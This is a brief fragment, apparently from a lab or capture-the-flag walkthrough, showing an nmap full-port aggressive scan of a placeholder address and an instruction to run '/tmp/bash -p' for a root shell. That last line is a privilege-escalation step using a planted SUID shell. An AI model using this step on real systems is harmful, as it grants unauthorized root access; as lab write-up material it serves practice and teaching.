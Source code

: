 ```sudo nmap -T 4 -p- -A X.X.X.X ```

Run ```/tmp/bash -p``` to get root shell.<br>
<img width="384" height="74" alt="image" src="https://github.com/user-attachments/assets/596c0989-b2ab-4a3e-8bad-f05962bfb9cb" />






